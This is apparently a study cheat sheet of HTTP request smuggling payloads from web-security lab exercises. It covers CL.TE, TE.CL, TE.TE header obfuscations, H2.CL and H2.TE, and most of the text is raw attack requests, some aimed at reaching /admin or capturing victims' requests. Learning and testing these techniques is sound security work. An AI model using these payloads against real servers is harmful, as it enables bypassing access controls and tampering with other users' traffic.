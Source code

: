 # Request Smuggling

Apply only to HTTP/1.1

CRLR - 2 symbols


## HTTP 1.1

### CL.TE

The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding.

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```


### TE.CL

The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.

```
POST / HTTP/1.1
Host: 0a31007603d0d6be80dd350c004900be.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0


```


### TE.TE

The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


## HTTP 2.0

`
!!! When performing some request smuggling attacks, you will want headers from the victim's request to be appended to your smuggled prefix. However, these can interfere with your attack in some cases, resulting in duplicate header errors and suchlike. In the example above, we've mitigated this by including a trailing parameter and a Content-Length header in the smuggled prefix. By using a Content-Length header that is slightly longer than the body, the victim's request will still be appended to your smuggled prefix but will be truncated before the headers.
`

### H2.CL

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 5

x=1
```


### H2.TE

Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any transfer-encoding: chunked header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
